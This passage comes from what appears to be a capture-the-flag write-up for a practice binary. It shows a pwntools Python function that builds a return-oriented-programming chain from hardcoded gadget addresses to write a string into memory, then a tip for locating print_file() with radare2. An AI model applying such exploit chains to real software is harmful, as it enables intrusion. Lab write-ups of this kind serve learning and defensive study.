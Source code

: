 
Here is some python code to write to an address
```python
#!/bin/python3
from pwn import *

write_addr = 0x00601038     # bss addr
mov_addr = 0x00400634       # mov qword [r13], r12
pop_regs = 0x0040069c       # pop r12-r15
junk = 0xdeadbeefdeadbeef

# write string s to address addr
# return ropchain in bytes
def write_str(addr, s):
    payload = b''
    r14 = p64(junk)
    r15 = p64(junk)

    # write every 8 bytes of a string
    for i in range(0, len(s), 8):

        # prevent slice out of bounds
        j = i+8
        if j > len(s):
            j = len(s)

        # 8 bytes to write
        r12 = p64(int.from_bytes(s[i:j], 'little'))
        # address to write to
        r13 = p64(addr + i)

        # fill registers
        payload += p64(pop_regs) + r12 + r13 + r14 + r15

        # write bytes
        payload += p64(mov_addr)
    return payload
```

### print_file()
> Find the `print_file` address and a gadget which
> sets the `rdi` register
{: .prompt-tip }

First let's find the address of `print_file()` using
the command `afl`
